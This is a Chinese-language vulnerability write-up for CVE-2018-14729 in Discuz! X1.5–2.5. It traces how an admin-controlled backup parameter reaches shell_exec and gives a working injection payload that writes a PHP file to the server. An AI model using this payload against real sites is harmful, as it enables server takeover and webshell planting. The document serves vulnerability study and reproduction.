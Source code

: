 （CVE-2018-14729）Discuz!X 1.5 \~ X2.5 后台数据库备份功能远程命令执行 Getshell
==============================================================================

一、漏洞简介
------------

二、漏洞影响
------------

Discuz! X1.5-2.5

三、复现过程
------------

### 漏洞分析

需要注意的是这个漏洞其实是需要登录后台的，并且能有数据库备份权限，所以比较鸡肋。

我这边是用Discuz! 2.5完成漏洞复现的，并用此进行漏洞分析的。

漏洞点在：

    source/admincp/admincp_db.php

第296行：

    @shell_exec($mysqlbin.'mysqldump --force --quick '.($db->version() > '4.1' ? '--skip-opt --create-options' : '-all').' --add-drop-table'.($_GET['extendins'] == 1 ? ' --extended-insert' : '').''.($db->version() > '4.1' && $_GET['sqlcompat'] == 'MYSQL40' ? ' --compatible=mysql40' : '').' --host="'.$dbhost.($dbport ? (is_numeric($dbport) ? ' --port='.$dbport : ' --socket="'.$dbport.'"') : '').'" --user="'.$dbuser.'" --password="'.$dbpw.'" "'.$dbname.'" '.$tablesstr.' > '.$dumpfile);

在shell\_exec()函数中可控点在\$tablesstr，向上看到第281行：

    $tablesstr = '';
    foreach($tables as $table) {
        $tablesstr .= '"'.$table.'" ';
    }

跟一下\$table的获取流程，在上面的第143行：

    if($_GET['type'] == 'discuz' || $_GET['type'] == 'discuz_uc') 
    {
        $tables = arraykeys2(fetchtablelist($tablepre), 'Name');
    } 
    elseif($_GET['type'] == 'custom') 
    {
        $tables = array();
        if(empty($_GET['setup'])) 
        {
            $tables = C::t('common_setting')->fetch('custombackup', true);
        } 
        else 
        {
            C::t('common_setting')->update('custombackup', empty($_GET['customtables'])? '' : $_GET['customtables']);
            $tables = & $_GET['customtables'];
        }
        if( !is_array($tables) || empty($tables)) 
        {
            cpmsg('database_export_custom_invalid', '', 'error');
        }
    }

可以看到：

    C::t('common_setting')->update('custombackup', empty($_GET['customtables'])? '' : $_GET['customtables']);
    $tables = & $_GET['customtables'];

首先会从\$\_GET的数组中获取customtables字段的内容，判断内容是否为空，不为空则将从外部获取到的customtables字段内容写入common\_setting表的skey=custombackup的svalue字段，写入过程中会将这个字段做序列化存储：

![](./.resource/(CVE-2018-14729)Discuz!X1.5~X2.5后台数据库备份功能远程命令执行Getshell/media/rId25.jpg)

之后再将该值赋给\$tables。

至此可以看到漏洞产生的原因是由于shell\_exec()中的\$tablesstr可控，导致代码注入。

### 漏洞复现

首先抓个包

![](./.resource/(CVE-2018-14729)Discuz!X1.5~X2.5后台数据库备份功能远程命令执行Getshell/media/rId27.jpg)

这样可以抓到符合我们条件的请求包。

![](./.resource/(CVE-2018-14729)Discuz!X1.5~X2.5后台数据库备份功能远程命令执行Getshell/media/rId28.jpg)

接下来只需要将customtables的内容更改一下就可以造成命令执行了：

    customtables[] = pre_common_admincp_cmenu">aaa; echo '<?php phpinfo(); ?>' > phpinfo.php #

![](./.resource/(CVE-2018-14729)Discuz!X1.5~X2.5后台数据库备份功能远程命令执行Getshell/media/rId29.jpg)

![](./.resource/(CVE-2018-14729)Discuz!X1.5~X2.5后台数据库备份功能远程命令执行Getshell/media/rId30.jpg)

效果为：

![](./.resource/(CVE-2018-14729)Discuz!X1.5~X2.5后台数据库备份功能远程命令执行Getshell/media/rId31.jpg)

参考链接
--------

> https://github.com/FoolMitAh/CVE-2018-14729/blob/master/Discuz\_backend\_getshell.md
>
> https://www.anquanke.com/post/id/158270
